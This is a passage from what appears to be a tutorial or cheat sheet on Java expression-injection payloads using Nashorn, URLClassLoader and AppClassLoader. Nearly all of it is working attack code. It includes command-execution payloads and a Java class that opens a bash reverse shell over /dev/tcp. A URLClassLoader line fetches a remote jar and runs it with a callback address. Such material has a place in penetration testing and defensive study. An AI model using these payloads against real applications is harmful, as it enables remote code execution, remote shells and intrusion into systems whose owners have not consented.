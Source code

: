 ```java
// Nashorn can be replaced with other engine names
new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("s=[3];s[0]='open';s[1]='-a';s[2]='Calculator';java.lang.Runtime.getRuntime().exec(s);")
```

### UrlClassLoader
`JVM` has multiple `ClassLoaders`, and different `ClassLoaders` will load bytecode files from different places. The loading method can be loaded through different file directories, or from different `jar` files, and also includes loading using network service addresses. Several common important `ClassLoader`: `BootstrapClassLoader`, `ExtensionClassLoader`, and `AppClassLoader`, and `UrlClassLoader`.

Utilization idea: Remotely load the `class` file, and call it through function calls or static code blocks. First construct a `Exploit.class` and put it in the remote `vps`

For example, bounce the `exp.java` of `shell` by constructing:

```java
public class exp {
    public exp(String address) {
        address = address.replace(":","/");
        ProcessBuilder p = new ProcessBuilder("/bin/bash","-c","exec 5<>/dev/tcp/"+address+";cat <&5 | while read line; do $line 2>&5 >&5; done");
        try {
            p.start();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

```java
new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://127.0.0.1:9999/exp.jar")}).loadClass("exp").getConstructors()[0].newInstance("127.0.0.1:2333")
```

### AppClassLoader
`AppClassLoader` is directly targeted to the user. It will load the `jar` package and directory in the path defined in the `Classpath` environment variable. Due to the existence of parent delegation, it can be loaded to the class we want. The prerequisite for use is to get. Get the `AppClassLoader` can be obtained through the static method of the `ClassLoader` class.

```java
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.Runtime").getRuntime().exec("open -a Calculator")
```

```java
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.ProcessBuilder").getConstructors()[1].newInstance(new String[]{"open", "-a", "Calculator"}).start()
```

### Get AppClassLoader through other classes
In actual projects, developers often import many dependencies `jar` or write custom classes.

